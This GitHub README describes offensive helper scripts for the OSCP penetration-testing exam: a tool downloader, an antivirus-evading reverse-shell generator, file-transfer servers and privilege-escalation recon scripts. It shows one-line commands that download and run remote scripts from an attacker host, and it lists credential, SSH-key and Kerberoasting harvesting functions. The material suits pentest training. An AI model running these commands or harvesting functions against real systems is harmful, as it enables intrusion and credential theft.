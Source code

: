 # OSCP python support tools

A small set of python tools developed to pass OSCP, this set consists of 3 scripts:

- Toolpy for easy & fast downloading tools
- Shellpy to generate payloads for reverse shells, optionally obfuscated to evade antivirus and in macro format for malicious documents
  (Shellpy can be found here --> https://github.com/KermitPurple96/Shellpy)
- Servpy to start services to transfer files via smb, ftp, http, https, scp, nc & socat
- recon.ps1 to assist in the windows privilege escalation process
- recon.sh to assist in the linux privilege escalation process

## Install
pip install pyftpdlib pyopenssl colorama psutil
git clone https://github.com/KermitPurple96/OSCP-PythonSupportTools
git clone https://github.com/KermitPurple96/Shellpy

## Usage

1. Download tools
```bash
toolpy -t mimikatz -a x64  
```
![toolpy](https://github.com/user-attachments/assets/048e544d-112a-40a5-972b-59262bc08e64)


2. Run a server
![servpy](https://github.com/user-attachments/assets/833c27d0-c865-4cfc-8c23-9fb611bbb768)


3. Load the script on Target Machine

For Linux
```bash
. <(curl 10.10.10.10/recon.sh)
```

For Windows
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))
```

Example funtions on windows:
```
PS> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))

     ___  __    ___   ___
    /___\/ _\  / __\ / _ \  _ __ ___  ___ ___  _ __
   //  //\ \  / /   / /_)/ | '__/ _ \/ __/ _ \| '_ \
  / \_// _\ \/ /___/ ___/  | | |  __/ (_| (_) | | | |
  \___/  \__/\____/\/      |_|  \___|\___\___/|_| |_|

========================================================
                                            DannyDB@~>

[*] Auxiliary Tools:
    - aux.upload [file]               : Upload files to HTTP server via POST
    - aux.download [file]             : Perform GET to retrieve files

[*] Auxiliary Recon:
    - recon.dateScan                  : Files modified between two dates
    - recon.dateLast                  : Files modified less than 15 minutes ago
    - recon.portscan <host> [1-1024]  : Perform port scanning
    - recon.pingscan 10.10.10.        : Perform ping scan of /24 subnet
    - recon.pspy                      : Similar to pspy script
    - recon.servInfo                  : Information abaut a server

[*] General Recon:
    - recon.sys                       : System information
    - recon.users                     : User information
    - recon.programs                  : Program information
    - recon.protections               : Protection information
    - recon.process                   : Process information
    - recon.networks                  : Network information
    - recon.acl                       : File permission information

[*] Privesc Recon:
    - priv.installElev                : AlwaysInstallElevated privilege
    - priv.serv.dir                   : Service directory privilege
    - priv.serv.reg                   : Service registry privilege
    - priv.serv.unq                   : Unquoted service privilege
    - priv.cred.files                 : Known credential files privilege
    - priv.cred.history               : Credential history privilege
    - priv.owned.files                : File owner privilege
    - priv.search.fname               : Credential in file name privilege
    - priv.search.fcontent            : Credential in file content privilege
    - priv.search.sshkeys             : SSH file privilege
    - priv.search.register            : Credential in registry privilege
    - priv.search.events              : Credential in events (Admin.) privilege
    - priv.autorun                    : Scheduled tasks privilege

[*] AD Recon:
    - ad.psremote                     : Remote PowerShell privilege
    - ad.computers                    : Domain computers privilege
    - ad.users                        : Domain users privilege
    - ad.user <user>                  : Information about a user
    - ad.listusers                    : List common names for bruteforce
    - ad.groups                       : Domain groups privilege
    - ad.group <group>                : Information about a group
    - ad.spn                          : Kerberoasting accounts
    - ad.asrep                        : AS-REP Roasting users privilege

```


## Configuration

- On httpTempServ.py add your own into SHORTCUTS dictionary, add your own aliases pointing the file path to quickly access.
- Make sure that the aliases for recon.sh and recon.ps1 point to the correct path in your file system.

